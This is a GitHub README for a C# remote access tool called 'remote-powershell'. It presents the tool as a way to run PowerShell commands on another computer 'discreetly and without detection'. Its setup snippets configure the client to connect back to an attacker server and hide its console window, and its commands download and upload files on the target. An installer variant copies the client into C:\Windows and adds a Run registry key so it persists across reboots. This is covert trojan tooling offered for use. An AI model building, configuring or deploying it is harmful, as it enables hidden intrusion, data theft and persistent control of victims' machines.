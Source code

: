 # remote-powershell

This is a terminal-based application that enables you to execute PowerShell commands on a remote client discreetly and without detection.

The application is divided into two main sections: client and server. And there are also special versions of sections that have additional functionality. Each of the sections and versions is briefly described below, as well as a short guide on how to set them up.

## server 

[Click to view](https://github.com/shead0shead/remote-powershell/tree/main/src/server)

The server folder contains all the files related to the part of the program that should be executed on the device from which the commands will be sent.

Just change the IP and Port to the one you need and run the program while waiting for connections.

```csharp
protected static string ipAddress = "127.0.0.1"; // Change 127.0.0.1 (IP) to the one you need
protected static int port = 8802;                // Change 8802 (Port) to the one you need      
```

| Command           | Description                                                                  | Syntax                        | Aliases    |
| ----------------- | ---------------------------------------------------------------------------- | ----------------------------- | ---------- |
| help              | Shows a list of all available commands                                       | help                          | ?          |
| shorts            | Shows a list of short/aliases commands                                       | shorts                        | $          |
| execute           | Sends and executes the command you specified on the remote client's computer | execute [client-id] [command] | exec, !    |
| download          | Downloads the file you specified from a remote client's computer             | download [client-id] [path]   | dload, +   |
| upload            | Uploads the file you specified to a remote client's computer                 | upload [client-id] [path]     | uload, =   |
| connection-list   | Gives a list of all active remote connections                                | connection-list               | con-list   |
| connection-remove | Forcibly disconnects the specified remote client from the server             | connection-remove [client-id] | con-remove |
| clear             | Clears the terminal                                                          | clear                         | clr        |
| quit              | Closes the application                                                       | quit                          | exit       |

Despite the fact that the disconnect command forcibly disconnects the remote client from the server, the automatic reconnection function in the client can still restore connections after a while.

You can change the path where files uploaded from the client to the server will be saved, as shown below.

```csharp
public async Task RecieveFileAsync(string path)
{
    ...
    // Replace the savePath string with the path where the files will be saved from the client
    string savePath = $@"C:\Users\{Environment.UserName}\Downloads\{Path.GetFileNameWithoutExtension(path)}_(recieved){Path.GetExtension(path)}";
    ...
}
```

Use the code below to get the original file name and extension.

```csharp
{Path.GetFileNameWithoutExtension(path)}/*Suffix to file name (Optional)*/{Path.GetExtension(path)}
```

## client

[Click to view](https://github.com/shead0shead/remote-powershell/tree/main/src/client)

The client folder contains all the files related to the part of the program that should be executed on the device to which the commands will be sent and executed.

Just change the IP and Port to the ones you installed on the server and run the program on another device.

```csharp
string host = "127.0.0.1"; // Change 127.0.0.1 (IP) to the one you need
int port = 8802;           // Change 8802 (Port) to the one you need
```

If you don't want the application to be automatically hidden after launch, delete the code shown below.

```csharp
[DllImport("user32.dll")]
static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);

[DllImport("kernel32.dll")]
static extern IntPtr GetConsoleWindow();

const int SW_HIDE = 0;
const int SW_SHOW = 5;

var handle = GetConsoleWindow();
ShowWindow(handle, SW_HIDE);
```

You can also delete only the last line shown, this will also make the app visible after launch.

You can change the path where files uploaded to the client from the server will be saved as shown below.

```csharp
async Task RecieveFileAsync(string path)
{
    ...
    // Replace savePath string with the path where the files will be saved on the client
    string savePath = $@"C:\Users\{Environment.UserName}\Downloads\{Path.GetFileNameWithoutExtension(path)}_(upload-func){Path.GetExtension(path)}";
    ...
}
```

Use the code below to get the original file name and extension.

```csharp
{Path.GetFileNameWithoutExtension(path)}/*Suffix to file name (Optional)*/{Path.GetExtension(path)}
```

Please note that if you use services that will help you expand your local network, such as ngrok, then you may have problems reconnecting the client to the server after it is turned off, since the connection for the client will remain active.

## client-and-installer

[Click to view](https://github.com/shead0shead/remote-powershell/tree/main/src/client-and-installer)

Client-and-installer is a version of the application that, when launched, automatically installs the client on a remote computer and adds it to Windows Startup.

```csharp
// Instead of "C:\Windows\client.exe" enter the path where the hidden client will be installed
if (Environment.ProcessPath != @"C:\Windows\client.exe")
{
    // Instead of "C:\Windows\client.exe" enter the path where the hidden client will be installed
    string path = @"C:\Windows\client.exe";
    ...
}
```

Сlient-and-installer automatically adds the application to Windows startup, if you want to remove it, then go to the Program.cs file in the client-and-installer folder and remove all lines from 15th to 17th.

```csharp
// Autorun code
RegistryKey registry;
registry = Registry.CurrentUser.CreateSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run\\", true);
registry.SetValue("client", @"C:\Windows\client.exe");
```